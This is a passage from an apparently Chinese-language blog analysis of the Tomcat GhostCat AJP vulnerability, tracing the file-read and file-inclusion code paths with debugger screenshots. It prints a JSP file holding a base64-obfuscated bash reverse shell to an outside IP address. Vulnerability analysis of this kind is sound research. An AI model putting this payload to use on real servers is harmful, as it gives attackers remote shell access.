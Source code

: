 ![image-20211113162826441](/images/GhostCat/image-20211113162826441.png)

返回到StandarRoot#getResource方法，步进到cache.getResource中

![image-20211113163421942](/images/GhostCat/image-20211113163421942.png)

在这里，获取到了对应web路径下的文件内容并最终返回结果，至此文件读取漏洞分析完毕。

### 文件包含漏洞

首先在webapps下面写一个文件，后缀名随意

```jsp
<%
    java.io.InputStream in = Runtime.getRuntime().exec("bash -c {echo,YmFzaCAtYyAnc2ggLWkgJj4vZGV2L3RjcC8zOS4xMDUuMTc2LjM3LzEyMzM0IDA+JjEn}|{base64,-d}|{bash,-i}").getInputStream();
    int a = -1;
    byte[] b = new byte[2048];
    while((a=in.read(b))!=-1){
        out.println(new String(b));
    }
%>
```

然后exp里面需要修改这部分

![image-20211113165621018](/images/GhostCat/image-20211113165621018.png)

为

![image-20211113165639432](/images/GhostCat/image-20211113165639432.png)

这样才可以让请求被JspServlet处理。这之后进入``org.apache.jasper.servlet.JspServlet``，直接在service方法中下断点。运行exp开始调试，跳过前面的prepareRequest环节后，来到这里

![image-20211113171213281](/images/GhostCat/image-20211113171213281.png)

这里和之前一样也获取了``javax.servlet.include.path_info``等属性，然后进入serviceJspFile方法

![image-20211113171440245](/images/GhostCat/image-20211113171440245.png)

生成了wrapper对象，然后调用了``wrapper.service``方法，继续调试，看到JspServletWrapper的service方法中调用了getServlet()

![image-20211113171851877](/images/GhostCat/image-20211113171851877.png)

继续往下就可以看到这里了，代码执行成功。

![image-20211113171934381](/images/GhostCat/image-20211113171934381.png)

## 总结

恶意配置项是如何被解析的，其实还是不是很清楚。另外有必要了解一下servlet的执行过程了。
